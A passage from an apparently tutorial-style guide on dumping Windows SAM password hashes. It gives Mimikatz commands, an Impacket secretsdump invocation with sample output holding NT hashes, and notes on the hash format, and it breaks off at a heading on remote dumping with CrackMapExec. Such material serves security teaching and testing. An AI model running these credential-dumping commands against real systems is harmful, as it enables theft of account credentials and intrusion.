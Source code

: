 #### Using Mimikatz (Windows)

Mimikatz can extract hashes directly from memory:

```cmd
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

### Analyzing Extracted Hives

#### Using Impacket's secretsdump.py (Linux)

After transferring the saved hives to your analysis machine:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Example output:

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c3efa2af93c3cce9893641540d4e4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
john:1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] Cleaning up...
```

#### Understanding the Output

The output format is typically:

* `username:RID:LM hash:NT hash`

Where:

* `RID` is the Relative Identifier (e.g., 500 for Administrator)
* `LM hash` is the legacy LAN Manager hash (usually disabled in modern Windows)
* `NT hash` is the newer Windows NT hash

The hash `aad3b435b51404eeaad3b435b51404ee` for the LM hash typically indicates that LM hashing is disabled, which is the default in modern Windows systems.

### Remote Dumping Techniques

You can also dump the SAM database remotely if you have appropriate credentials.

#### Using CrackMapExec
